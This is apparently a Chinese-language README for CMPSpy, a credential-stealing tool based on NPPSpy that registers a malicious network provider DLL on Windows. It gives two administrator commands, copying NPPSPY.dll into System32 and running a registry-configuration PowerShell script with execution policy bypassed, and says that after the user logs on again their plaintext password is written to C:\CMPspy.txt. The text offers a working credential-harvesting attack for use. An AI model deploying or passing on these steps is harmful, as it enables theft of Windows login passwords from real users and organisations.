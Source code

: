 # CMPSpy

基于 https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy ，增加了`LogonDomainName`和`Kerberos:Interactive` 的支持。



管理员权限执行如下两条命令即可。



```bash
copy .\NPPSPY.dll C:\windows\System32\
powershell.exe -Exec Bypass .\ConfigureRegistrySettings.ps1
```



注销后，重新登陆，明文密码就存放在`C:\CMPspy.txt`文件中。



![](image-20211223002827467.png)